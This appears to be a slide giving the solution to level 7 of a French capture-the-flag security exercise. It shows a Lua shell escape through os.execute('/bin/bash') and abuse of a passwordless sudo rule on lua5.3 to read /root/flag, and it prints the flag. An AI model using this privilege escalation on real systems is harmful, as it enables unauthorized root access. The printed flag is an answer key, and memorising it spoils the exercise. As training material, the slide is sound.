

CORRECTION / Niveau 7

Lua 5.3.3  Copyright (C) 1994-2016 Lua.org, PUC-Rio
> ls
nil
> os.execute('/bin/bash')

level7@clusir-ceh-20200212:~$ sudo -l
User level7 may run the following commands on clusir-ceh-20200212:
	(root) NOPASSWD: /usr/bin/lua5.3

level7@clusir-ceh-20200212:~$ sudo lua5.3

Lua 5.3.3  Copyright (C) 1994-2016 Lua.org, PUC-Rio
> os.execute('cat /root/flag')
${CLUSIRceh2020|Ajg9sopQ}
true		exit		0